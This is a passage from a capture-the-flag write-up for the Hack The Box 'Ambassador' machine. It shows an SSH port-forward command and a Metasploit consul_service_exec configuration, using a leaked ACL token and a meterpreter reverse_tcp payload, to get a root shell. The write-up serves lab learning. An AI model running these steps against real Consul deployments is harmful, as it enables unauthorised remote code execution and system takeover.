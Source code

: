 consul token? What's that? I know we have a "consul" folder in /opt. But what is it? After a quick google search, I found out that it was used to "configure applications across dynamic, distributed infrastructure". So I started thinking: "do we need to use an exploit again?"

Looking online, there's a Remote Command Execution exploit... That might be useful!

Now, I gotta be honest, the first times trying to run this exploit were a bit of a pain. Nothing was working, so I had to bind the machine port 8500 to my own 8500 port using the following command:

```
ssh developer@ambassador.htb -L 8500:localhost:8500
```

On msfconsole I entered the following options:

```
Module options (exploit/multi/misc/consul_service_exec):

   Name       Current Setting                       Required  Description
   ----       ---------------                       --------  -----------
   ACL_TOKEN  (acl_token from git show)             no        Consul Agent ACL token
   Proxies                                          no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     127.0.0.1                             yes       The target host(s), see https://github.com/rapid7/metasploit-frame
                                                              work/wiki/Using-Metasploit
   RPORT      8500                                  yes       The target port (TCP)
   SRVHOST    0.0.0.0                               yes       The local host or network interface to listen on. This must be an
                                                              address on the local machine or 0.0.0.0 to listen on all addresses
                                                              .
   SRVPORT    8080                                  yes       The local port to listen on.
   SSL        false                                 no        Negotiate SSL/TLS for outgoing connections
   SSLCert                                          no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                                     yes       The base path
   URIPATH                                          no        The URI to use for this exploit (default is random)
   VHOST                                            no        HTTP server virtual host


Payload options (linux/x86/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  (your htb ip)    yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port

```

Boom, we have a root shell!